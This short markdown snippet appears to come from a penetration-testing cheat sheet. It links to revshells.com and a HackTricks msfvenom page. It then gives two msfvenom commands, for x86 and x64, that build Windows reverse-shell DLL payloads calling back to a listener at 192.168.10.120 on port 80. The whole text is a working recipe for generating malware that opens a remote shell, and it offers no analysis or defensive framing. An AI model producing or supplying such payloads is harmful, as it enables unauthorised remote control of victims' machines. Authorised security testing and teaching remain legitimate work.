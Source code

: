 #### Reference resources

https://www.revshells.com/

https://book.hacktricks.xyz/shells/shells/msfvenom

### :open_file_folder: Windows

x86(try first)

```
msfvenom -p windows/shell_reverse_tcp -f dll -o xxx.dll LHOST=192.168.10.120 LPORT=80
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o xxx.dll LHOST=192.168.10.120 LPORT=80
```
